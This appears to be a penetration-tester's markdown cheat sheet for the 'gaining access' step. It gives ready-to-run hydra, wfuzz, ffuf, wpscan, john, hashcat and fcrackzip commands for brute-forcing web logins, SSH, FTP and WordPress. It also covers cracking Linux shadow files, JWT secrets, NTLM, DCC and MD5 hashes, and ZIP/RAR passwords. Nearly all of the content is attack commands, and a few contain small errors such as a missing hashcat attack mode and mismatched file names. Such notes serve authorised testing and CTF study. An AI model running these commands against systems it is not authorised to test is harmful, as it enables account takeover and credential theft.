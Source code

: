 ```yaml
---
title: 3 – Brute Force
summary: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
description: "Gaining Access step – a note for brute forcing passwords, login pages, archives, ..."
---
```


# Words Lists :

---

* <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt</font>
* <font color=lightblue>/usr/share/wordlists/metasploit/unix_passwords.txt</font>

# HTTP POST Login Page

---

### WFUZZ


 > 
 > **<font color=red>wfuzz -c -z file,</font>myWordList -u http://\[TARGET_IP\]:\[TARGET_PORT\]/login.php -d “username=<font color=red>FUZZ</font>&password=<font color=red>FUZZ</font>”</br>**
 > Fuzz POST Login.

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

---

### FUFF

WPSCAN> **<font color=red>ffuf -w </font>myUsersFile.txt<font color=red>:W1,</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font><font color=red>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u</font> http://\[TARGET_IP\]/login <font color=red>-fc 200</font>**</br>

 > 
 > Brute Force HTTP POST form with valid username.

---

### WPSCAN (WordPress)


 > 
 > **<font color=red>wpscan --url </font>http://\[TARGET_IP\]/blog <font color=red>--usernames</font> admin <font color=red>--passwords</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Brute force WordPress user's credentials.

# HTTP Basic Access Auth

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red>http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

# SSH

---

### HYDRA


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red>ssh</font>**</br>
 > Brute Force SSH.

# SSH Private Key Passphrase

---

### JOHN


 > 
 > **<font color=red>/usr/share/john/ssh2john.py</font> private_key <font color=red>\></font> forjohn.txt**</br>
 > Prepare private key for John.
 > 
 > **<font color=red>john --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> forjohn.txt**</br>
 > Crack private key passphrase.

# FTP

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.

# Linux Unshadow

---

### JOHN


 > 
 > **<font color=red>unshadow /etc/passwd /etc/shadow ></font> unshadowd.txt**</br>
 > Prepare passwd and shadow file for John.
 > 
 > **<font color=red>john unshadow.txt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack user passwords.
 > 
 > **<font color=red>john --show</font> unshadow.txt**</br> 
 > Display cracked passwords.

# JWT

---

### JOHN


 > 
 > **<font color=red>john --format=HMAC-SHA512</font> jwt.txt <font color=red>--show</font>**</br>
 > Crack JWT secret.

### JWT-CRACKER


 > 
 > **<font color=red>jwt-cracker </font> \[myToken\] \[myAlphabet\] \[myMaxSecretLengthExpected\]**</br>
 > Crack JWT token password.

Default Alphabet : abcdefghijklmnopqrstuvwxyz

# MD5

---

### JOHN


 > 
 > **<font color=red>john --format=md5crypt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt**</br>
 > Crack MD5 hash.

# NTLM

---

### JOHN


 > 
 > **<font color=red>john --format=NT -w=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt <font color=red>--pot=</font>output.txt**</br>
 > Crack NTLM Hash.

# DCC

---

### HASHCAT


 > 
 > **<font color=red>hashcat -a 0 -m 1100 0 '</font>15a57c379ebdfea572ad1ff91eb6ef0c:Administrator<font color=red>'</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack DCC (Domain Cached Credentials) hash.

# ZIP

---

### JOHN


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forjohn.txt**</br>
 > Prepare ZIP archive for John.

 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack ZIP archive password.

---

### HASHCAT


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forhashcat.txt**</br>
 > Remove name of the file and archive from the hash (at the beginning and the end).

 > 
 > **<font color=red>hashcat -a -m 13600</font> forhashcat.txt <font color=lightblue>/usr/share/wordslist/rockyou.txt</font>**</br>
 > Crack ZIP archive password.

---

### FCRACKZIP


 > 
 > **<font color=red>fcrackzip -v -D -p</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font> <font color=red>-u </font>myZipFile.zip**</br>
 > Crack ZIP archive password.

# RAR

---

### JOHN


 > 
 > **<font color=red>rar2john</font> myFile.rar <font color=red>\></font> forjohn.txt**</br>
 > Prepare RAR archive for John.
 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack RAR archive password.
